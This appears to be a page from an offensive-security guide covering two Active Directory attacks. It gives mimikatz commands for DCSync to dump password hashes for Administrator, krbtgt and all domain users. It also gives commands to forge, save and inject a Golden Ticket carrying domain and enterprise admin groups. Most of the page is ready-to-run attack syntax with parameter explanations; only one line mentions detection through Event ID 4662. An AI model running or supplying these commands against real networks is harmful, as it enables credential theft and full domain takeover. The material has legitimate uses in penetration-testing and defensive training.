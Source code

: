 
## Advanced Techniques with Explanations

### 1. DCSync Attack (Remote Credential Extraction)

**What it does:** Mimics a domain controller's replication behavior to request password data from another DC without executing code on it.

**Why it's powerful:** No need to access the target DC's memory directly—works over the network with proper privileges.

**Requirements:**
- Domain Admin, Enterprise Admin, or account with `Replicating Directory Changes` and `Replicating Directory Changes All` rights

```powershell
# Dump specific user's credentials
mimikatz # lsadump::dcsync /user:Administrator /domain:corp.local

# Dump krbtgt account (for golden tickets)
mimikatz # lsadump::dcsync /user:krbtgt /domain:corp.local

# Dump all domain users (noisy!)
mimikatz # lsadump::dcsync /domain:corp.local /all
```

**How it works:**
1. Uses Directory Replication Service Remote Protocol (MS-DRSR)
2. Sends `GetNCChanges` requests to DC
3. DC responds with password hashes thinking it's legitimate replication
4. Triggers Event ID 4662 (auditing can detect this)

---

### 2. Golden Ticket Attack

**What it does:** Forges a Ticket Granting Ticket (TGT) using the krbtgt account hash, granting unrestricted domain access.

**Why it's devastating:** Bypasses authentication entirely—tickets are valid until krbtgt password is changed twice (default ticket lifetime is 10 years maximum).

```powershell
# Create a golden ticket
mimikatz # kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-XXXXXXXXXX-XXXXXXXXXX-XXXXXXXXXX /krbtgt:NTLM_HASH /id:500 /groups:512,513,518,519,520 /ptt

# Parameters explained:
# /user - Username to impersonate (doesn't need to exist!)
# /domain - Fully qualified domain name
# /sid - Domain SID (use whoami /user to find)
# /krbtgt - NTLM hash of krbtgt account
# /id - User RID (500 = Administrator)
# /groups - Group RIDs (512=Domain Admins, 519=Enterprise Admins)
# /ptt - Pass-the-Ticket (inject immediately)

# Save ticket to file instead
mimikatz # kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-XXX /krbtgt:HASH /ticket:golden.kirbi

# Inject saved ticket later
mimikatz # kerberos::ptt golden.kirbi
```
